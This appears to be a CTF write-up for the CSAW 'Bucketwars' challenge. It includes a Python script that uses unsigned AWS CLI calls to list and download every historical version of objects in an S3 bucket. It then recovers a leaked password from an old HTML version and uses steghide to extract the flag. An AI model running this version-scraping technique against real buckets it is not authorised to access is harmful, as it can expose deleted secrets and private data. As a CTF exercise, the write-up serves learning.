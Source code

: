 # Writeup for Bucketwars challenge of CSAW CTF 

The bucket url can be found by triggering any error ike 404.


Firstly,after some thinking the hint "we don't make mistakes in these parts" could be pointing towards the concept of **versioning** in Amazon S3 buckets. 
In hindsite the other endpoints had text which hinted towards versioning as well.

So we run a script to fetch the version list and then all the older version files as well from the bucket using the filenames from the versions file obtained:

```
from subprocess import check_output
import json

BUCKET_NAME = "bucketwars.ctf.csaw.io"


def getFiles():
    cmd_output = check_output(
        f'aws s3api list-object-versions --no-sign-request --bucket {BUCKET_NAME} --prefix "" --output json', shell=True)

    return json.loads(cmd_output)["Versions"]


def getFile(file):
    filename, VersionId = file["Key"], file["VersionId"]

    try:
        output_filename = f"{filename.split(".")[0]}_{VersionId.strip()}.{
            filename.split(".")[1]}"
    except IndexError:
        output_filename = f"{filename}{VersionId}"

    check_output(
        f"aws s3api get-object --no-sign-request --bucket {BUCKET_NAME} --key {filename} --version-id {VersionId} {output_filename}", shell=True)

    print(file["LastModified"], f"""{
          int(file["Size"])/1000} KB""", output_filename, sep="\t")


# files = json.loads(open("versions.json").read())["Versions"]
files = getFiles()

print(f"Pulling [{len(files)}] files")
print("Timestamp\tSize\tFilename_VersionId")

for file in files:
    getFile(file)
	
	```

In one of the version files we get this comment:

```
    Oh it can't be
    <!-- Note to self: be sure to delete this password: versions_leaks_buckets_oh_my --> 
```
And we find a image in a previous version of the v1 endpoint(index_v1_t6G6A20JCaF5nzz6KuJR6Pj1zePOLAdB.html) and whats different about this is it was stored in another bucket and not in the same provider as the other images.
Running steghide on the image with the above password gives the flag.

Note: The bucket was taken down quite early after the ctf ended so could not repoduce the steps.